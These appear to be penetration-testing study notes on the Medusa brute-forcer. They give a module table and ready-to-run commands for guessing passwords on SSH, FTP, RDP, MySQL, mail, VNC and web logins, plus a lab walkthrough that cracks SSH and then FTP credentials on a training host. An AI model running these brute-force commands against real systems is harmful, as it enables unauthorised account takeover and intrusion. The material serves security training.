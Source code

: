 Medusa, a prominent tool in the cybersecurity arsenal, is designed to be a fast, massively parallel, and modular login brute-forcer. Its primary objective is to support a wide array of services that allow remote authentication, enabling penetration testers and security professionals to assess the resilience of login systems against brute-force attacks.
# MEDUSA MODULES
| Medusa Module    | Service/Protocol                 | Description                                                                                 | Usage Example                                                                                                               |
| ---------------- | -------------------------------- | ------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| FTP              | File Transfer Protocol           | Brute-forcing FTP login credentials, used for file transfers over a network.                | `medusa -M ftp -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| HTTP             | Hypertext Transfer Protocol      | Brute-forcing login forms on web applications over HTTP (GET/POST).                         | `medusa -M http -h www.example.com -U users.txt -P passwords.txt -m DIR:/login.php -m FORM:username=^USER^&password=^PASS^` |
| IMAP             | Internet Message Access Protocol | Brute-forcing IMAP logins, often used to access email servers.                              | `medusa -M imap -h mail.example.com -U users.txt -P passwords.txt`                                                          |
| MySQL            | MySQL Database                   | Brute-forcing MySQL database credentials, commonly used for web applications and databases. | `medusa -M mysql -h 192.168.1.100 -u root -P passwords.txt`                                                                 |
| POP3             | Post Office Protocol 3           | Brute-forcing POP3 logins, typically used to retrieve emails from a mail server.            | `medusa -M pop3 -h mail.example.com -U users.txt -P passwords.txt`                                                          |
| RDP              | Remote Desktop Protocol          | Brute-forcing RDP logins, commonly used for remote desktop access to Windows systems.       | `medusa -M rdp -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| SSHv2            | Secure Shell (SSH)               | Brute-forcing SSH logins, commonly used for secure remote access.                           | `medusa -M ssh -h 192.168.1.100 -u root -P passwords.txt`                                                                   |
| Subversion (SVN) | Version Control System           | Brute-forcing Subversion (SVN) repositories for version control.                            | `medusa -M svn -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| Telnet           | Telnet Protocol                  | Brute-forcing Telnet services for remote command execution on older systems.                | `medusa -M telnet -h 192.168.1.100 -u admin -P passwords.txt`                                                               |
| VNC              | Virtual Network Computing        | Brute-forcing VNC login credentials for remote desktop access.                              | `medusa -M vnc -h 192.168.1.100 -P passwords.txt`                                                                           |
| Web Form         | Brute-forcing Web Login Forms    | Brute-forcing login forms on websites using HTTP POST requests.                             | `medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"`   |

# SSH TARGET
```shell-session
$ medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh 
```
### Targeting Multiple Web Servers with Basic HTTP Authentication
```shell-session
$ medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET 
```
Perform additional checks for empty passwords (`-e n`) and passwords matching the username (`-e s`).

#ex
```shell-session
$ medusa -h IP -n PORT -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```

- `-t 3`: Dictates the number of parallel login attempts to execute concurrently. Increasing this number can speed up the attack but may also increase the likelihood of detection or triggering security measures on the target system.

# login after ssh brute
```
ssh user>@host -p <port>
pass: <pass>
```

scan for other ports
```
nmap localhost
# open 21 ftp
```
brute ftp
```
medusa -n 21 -h<host> -U <list> -P <list> -M ftp
```

```
# ftp
```shell-session
ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost
```

# Exercise

``
```
sshuser@ng-$ medusa -h 127.0.0.1 -n 21 -u ftpuser -P 2020-200_most_used_passwords.txt  -M ftp -t3 


ftp ftp://ftpuser:qqww1122@localhost
```

# usage and flags
![](Pasted%20image%2020250618235933.png)
![](Pasted%20image%2020250618235953.png)


